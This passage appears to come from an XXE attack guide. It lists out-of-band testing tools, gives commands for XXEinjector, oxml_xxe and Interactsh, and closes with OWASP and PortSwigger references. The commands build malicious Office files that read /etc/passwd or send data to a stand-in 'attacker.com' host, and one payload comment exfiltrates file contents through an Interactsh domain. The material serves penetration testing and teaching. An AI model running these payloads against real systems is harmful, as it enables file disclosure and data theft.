|**Burp Suite Collaborator**|OOB XXE detection and exfiltration      |Built-in to Burp Suite Pro                         |
|**Interactsh**             |Free OOB interaction logging (DNS, HTTP)|`./interactsh-client`                              |
|**PayloadsAllTheThings**   |XXE payload repository                  |https://github.com/swisskyrepo/PayloadsAllTheThings|
|**CyberChef**              |Payload encoding/transformation         |https://cyberchef.io/                              |

### XXEinjector

```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector
./xxeinjector.py -u http://target.com/api/process -f file.xml
./xxeinjector.py -u http://target.com -t bing -p http://127.0.0.1:8080/admin
```

### oxml_xxe

```bash
pip install oxml_xxe
python -m oxml_xxe generate -t xlsx -p "file:///etc/passwd" -o malicious.xlsx
python -m oxml_xxe generate -t docx -p "http://attacker.com/?data=test" -o malicious.docx
```

### Interactsh

```bash
wget https://github.com/projectdiscovery/interactsh/releases/download/v1.0.0/interactsh-client_1.0.0_linux_amd64.zip
unzip interactsh-client_1.0.0_linux_amd64.zip
./interactsh-client
# Use the generated domain in XXE payloads: http://<YOUR_INTERACTSH_DOMAIN>/?data=%file;
```

-----

# References

## OWASP

- [A05:2021 – Security Misconfiguration (includes XXE)](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/XML_External_Entity_(XXE)_Processing

## PortSwigger Web Security Academy

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/blind
- https://portswigger.net/web-security/xxe/file-upload

## Community

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- https://tryhackme.com/room/xxe

## Papers

- **XML External Entity (XXE) Processing** - NIST Guidelines
- **DTD Security Considerations** - W3C XML Specifications
